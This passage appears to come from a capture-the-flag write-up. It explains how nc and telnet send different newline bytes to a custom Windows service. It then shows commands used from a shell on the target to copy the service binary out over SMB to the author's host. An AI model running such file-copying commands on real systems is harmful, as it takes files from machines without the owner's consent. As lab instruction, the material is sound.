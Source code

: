 When I looked at them as Hex, the answer immediately became clear:

`nc`:

![](/img/image-20200605201357255.png)

`telnet`:

![](/img/image-20200605201412359.png)

`nc` was sending a Linux newline, `\n` or 0x0a, when I hit Enter.
`telnet` sends a Windows new line, `\r\n` or 0x0d 0x0a. Most
applications I typically deal with are fine with the `\n`, but this
application is not.

I used my shell to grab a copy of `HqkSvc.exe` over SMB (first started
the server with
`smbserver.py s . -username df -password df -smb2support`):



    C:\PROGRA~1\HQK>net use \\10.10.14.24\s /u:df df
    The command completed successfully.
    C:\PROGRA~1\HQK>copy HqkSvc.exe \\10.10.14.24\s\
            1 file(s) copied.



Opening it in dnSpy, it wasn't quite as simple, but eventually I found
the function, `DataReceived`:
